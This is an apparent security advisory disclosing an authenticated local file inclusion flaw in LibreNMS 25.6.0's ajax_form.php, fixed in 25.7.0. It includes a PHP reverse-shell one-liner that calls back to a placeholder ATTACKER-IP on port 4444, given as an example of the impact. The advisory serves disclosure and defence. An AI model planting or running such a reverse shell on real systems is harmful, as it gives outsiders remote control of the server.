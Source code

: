# Authenticated Local File Inclusion in `ajax_form.php` Allows RCE

#### CVE ID: Pending

#### Date: 2025-07-16

#### Author: Seth Kraft

#### Vendor Homepage: https://www.librenms.org/

#### Vendor Changelog: https://github.com/librenms/librenms/releases

#### Affected Version: 25.6.0

#### Fixed Version: 25.7.0 via [PR-17990](https://github.com/librenms/librenms/pull/17990)

#### CWE ID: [`CWE-98`](https://cwe.mitre.org/data/definitions/98.html) (Improper Control of Filename for Include/Require Statement in PHP Program)

#### Estimated CVSS Base Score: 7.5 (High)

#### Estimated Vector String: `CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H`

#### Type: Authenticated Local File Inclusion

---

## Authorization

**For authorized testing and research purposes only.** Do not test or exploit this vulnerability on systems you do not own or have explicit permission to test.

---

## Summary

LibreNMS 25.6.0 contains an architectural vulnerability in the `ajax_form.php` endpoint that permits Local File Inclusion (LFI) based on user-controlled POST input. 

The application directly uses the `type` parameter to dynamically include `.inc.php` files from the trusted path `includes/html/forms/`, without validation or allowlisting:

```php
if (file_exists('includes/html/forms/' . $_POST['type'] . '.inc.php')) {
    include_once 'includes/html/forms/' . $_POST['type'] . '.inc.php';
}
```
This pattern introduces a latent Remote Code Execution (RCE) vector if an attacker can stage a file in this include path — for example, via symlink, development misconfiguration, or chained vulnerabilities.

>  This is not an arbitrary file upload bug. But it does provide a powerful execution sink for attackers with write access (direct or indirect) to the include directory.

---

## Conditions for Exploitation

- Attacker must be authenticated    
- Attacker must control a file at `includes/html/forms/{type}.inc.php` (or symlink)        

## Example Impact (RCE)

If a PHP file or symlinked shell is staged in the include path, an attacker can achieve full remote code execution under the `librenms` user context:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1"'); ?>
```

![Screen Recording 2025-06-25 212722](https://github.com/user-attachments/assets/9638d4b4-bfd6-4ace-8af1-8990c6736bc8)

---

## Solution

Upgrade to Version 25.7.0

## Disclaimer
This work was conducted outside of my employment and reflects my personal efforts in cybersecurity research.

---
